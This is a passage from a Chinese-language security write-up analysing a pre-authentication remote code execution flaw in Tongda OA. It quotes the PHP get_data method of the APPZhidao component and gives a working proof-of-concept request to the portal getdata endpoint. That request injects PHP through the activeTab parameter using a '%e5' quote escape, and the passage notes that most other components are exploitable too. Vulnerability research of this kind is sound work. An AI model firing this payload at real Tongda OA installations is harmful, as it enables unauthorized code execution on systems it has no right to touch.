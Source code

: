 可以看到成功进行了逃逸。至此通达OA前台RCE的原理也就分析完了。

##### 寻找其它的利用处

###### 其它可以利用的组件模块

在上面的源码分析，我们也发现了只要最终调用的module中的get_data的返回含有我们可控的activeTab，就可以在/general/appbuilder/web/portal/gateway/getdata进行rce。在comtype为0的情况下，寻找的是文件夹function_components下面的类，其中有一个APPZhidao类，它的get_data如下：

```
    public function get_data($thisarray)
    {
        $json = $thisarray["attribute"];
        $activeTab = $thisarray["activeTab"];
        $curnum = $thisarray["curnum"];
        $pagelimit = $thisarray["pagelimit"];
        $timetype = $thisarray["timetype"];
        $ret = (array) modules\portal\models\function_components\json_decode($json);
        $json_data = modules\appdesign\models\AppUtils::object2Array($ret);
        $json_data = modules\appdesign\models\AppUtils::toGBK($json_data);

        if ($timetype) {
            $this_time = modules\appdesign\models\AppUtils::get_time($timetype);
            $this-&gt;beginTime = $this_time["beginTime"];
            $this-&gt;endTime = $this_time["endTime"];
        }

        $curnum = ($curnum ? $curnum : 1);
        $start = ($curnum - 1) * $pagelimit;

        if (modules\portal\models\function_components\find_id($_SESSION["LOGIN_FUNC_STR"], "185")) {
            .........
            .........
            .........
        }

        $dataBacks = array("page_total" =&gt; $page_total, "total_nums" =&gt; $total_nums, "curnum" =&gt; $curnum, "pagelimit" =&gt; $pagelimit, "activeTab" =&gt; $activeTab, "data" =&gt; $this-&gt;dataBack);
        return $dataBacks;
    }

```

由于未登录所以大部分的逻辑都是不会进去的，直接返回了含有未修改activeTab的数组。利用的poc如下所示：

```
/general/appbuilder/web/portal/gateway/getdata?activeTab=%e5'.var_dump(111));/*&amp;id=1&amp;module=Zhidao

```

其实大部分的组件都是可以利用的，除了website_components下的module，因为它的get_data并没有返回可控的activeTab。
